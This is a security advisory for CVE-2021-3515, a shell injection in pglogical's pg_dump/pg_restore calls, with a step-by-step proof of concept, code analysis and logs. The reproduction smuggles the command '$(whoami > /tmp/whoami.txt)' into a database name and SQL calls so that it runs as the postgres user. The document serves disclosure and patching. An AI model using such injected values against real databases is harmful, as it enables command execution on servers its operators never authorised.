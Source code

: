 ```yaml
---
title: '2ndQuadrant: pglogical pg_dump/pg_restore remote code execution'
published: '2021-06-08T06:56:50Z'
severity: Moderate
ghsa_id: GHSA-wcv2-vxw9-23hx
cve_id: CVE-2021-3515
weaknesses: []
products:
- ecosystem: ''
  package_name: pglogical
  affected_versions: <2.3.4
  patched_versions: 2.3.4
cvss: null
credits: []
---
```


### Summary
Shell injection vulnerability when creating a subscription that utilizes synchronize_structure when calling pglogical.create_subscription. The underlying vulnerability is the database name is used in a string value that is passed to a call to system without any sanitization at https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L120 and 
https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L152.

### Severity
**Medium**
A user that was granted USAGE on the pglogical schema would be able to execute shell commands as the user running postgresql.

A scenario where an unprivileged user could be granted USAGE on pglogical schema for arbitrary databases could be in migrating between database providers. 

### Proof of Concept
#### Setup

This setup contains 2 VMs both running Postgresql-11. I have built pglogical 2.3.3 from source. 

Both instances follow the "Quick Setup" guide:
```
wal_level = 'logical'
max_worker_processes = 10   # one per database needed on provider node
                            # one per node needed on subscriber node
max_replication_slots = 10  # one per node needed on provider node
max_wal_senders = 10        # one per node needed on provider node
shared_preload_libraries = 'pglogical'
```

I've enabled the instances to talk to the network
```
listen_addresses = '*' 
```
With the following addition to pg_hba.conf 
```
host    all             all             all                     md5
```
#### Reproduction 
For the initial setup we'll be using the Superuser postgres 
```sql
ALTER USER postgres WITH PASSWORD <pass>
```
Both will create a database that contains the payload to execute we'll use a simple example of writing to a file in /tmp
```sql
CREATE DATABASE "$(whoami > /tmp/whoami.txt)";
```
Enable pglogical in the newly created database on both
```sql
\c "$(whoami > /tmp/whoami.txt)"
CREATE EXTENSION pglogical;
```
On the subscriber side we'll create a new user and grant them usage on pglogical
```sql
CREATE USER test_user WITH PASSWORD <pass>;
GRANT USAGE on SCHEMA pglogical TO test_user;
```
Setup the provider node on the provider instance
```sql
SELECT pglogical.create_node(node_name := 'test_provider',
    dsn := $$host=<provider_ip> port=<provider_port> user=postgres password=<pass> dbname='$(whoami > /tmp/whoami.txt)'$$);
```
On the subscribe instance setup the node
```sql
SELECT pglogical.create_node(
    node_name := 'test_sub',
    dsn := $$host=<sub_ip> port=<sub_port> user=test_user password=<pass> dbname='$(whoami > /tmp/whoami.txt)'$$);
```
Create a subscription, ensuring you set `synchronize_structure := TRUE` which will hit the vulnerable path. 

To trigger the vulnerability at pglogical_sync.c:120 include the payload in the subscription’s dbname. To trigger the one at pglogical_sync.c:152 use a normal dbname. 
```sql
-- Will Trigger shell injection at pglogical_sync.c:120
SELECT pglogical.create_subscription(subscription_name := 'test_sub',
    provider_dsn := $$host=<provier_ip> port=<provider_port> user=postgres password=<pass> dbname='$(whoami > /tmp/whoami.txt)'$$,
    synchronize_structure := TRUE);

-- Will trigger the shell injection at pglogical_sync.c:152
SELECT pglogical.create_subscription(subscription_name := 'test_sub',
    provider_dsn := $$host=<provier_ip> port=<provider_port> user=postgres password=<pass> dbname=postgres'$$,
    synchronize_structure := TRUE);
```
The command should execute. We can confirm this by looking for the file. 
```
$ cat /tmp/whoami.txt 
postgres
```
### Further Analysis
When syncing occurs we see that dump_structure is executed if the sync type is structure or full. We satisfy this requirement when setting syncronize_structure to TRUE when creating a subscription.

[pglogical_sync.c:810](https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L810)
```c
if (SyncKindStructure(sync->kind))
				{
    ...snip...
					/* Dump structure to temp storage. */
					dump_structure(sub, tmpfile, snapshot);
```
Within dump_structure the user provided dsn is used to craft a string that will
be passed to system

[pglogical_sync.c:116](https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L116)
```c
	appendStringInfo(&command, "\"%s\" --snapshot=\"%s\" %s -s -F c -f \"%s\" \"%s\"",
					 pg_dump, snapshot, schema_filter.data, destfile,
					 sub->origin_if->dsn);

	res = system(command.data);
```
Looking at the logs we can see what was executed

/var/log/postgresql/postgresql-11-main.log
```
2021-02-05 18:35:43.233 UTC [26568] [unknown]@$(whoami > /tmp/whoami.txt) ERROR:
could not execute command ""/usr/lib/postgresql/11/bin/pg_dump"
--snapshot="0000000E-0000000D-1" -N pglogical -s -F c -f
"/tmp/pglogical-26568.dump" "host=10.128.0.49 port=5432 user=postgres password=a0de0238d8d4277c8efb97221972d48d359231c45152c73a1b24021520c15d69 dbname='$(whoami > /tmp/whoami.txt)'""
```

Our subshell is still executed even though it's in single quotes, because it's wrapped in double quotes. 

Similar to dump_structure, restore_structure has the same vulnerable pattern. 

[pglogical_sync.c:148](https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L148)
```c
	appendStringInfo(&command,
					 "\"%s\" --section=\"%s\" --exit-on-error -1 -d \"%s\" \"%s\"",
					 pg_restore, section, sub->target_if->dsn, srcfile);
```
/var/log/postgresql/postgresql-11-main.log
```
2021-02-08 21:59:45.544 UTC [21153] [unknown]@$(whoami > /tmp/whoami.txt) ERROR:  could not execute command ""/usr/lib/postgresql/11/bin/pg_restore" --section=
"pre-data" --exit-on-error -1 -d "host=10.128.15.199 port=5432 user=test_user password=64eca3f8451089e4711b9fe0c6c24d264cfa11ff24c88f0f52067e5f223e140c dbname='$(whoami > /tmp/whoami.txt)'" "/tmp/pglogical-21153.dump"
```

### Timeline
**Date reported**: 2021-03-08
**Date fixed**: 2021-05-23
**Date disclosed**: 2021-06-07

### Credits
Pedro Gallegos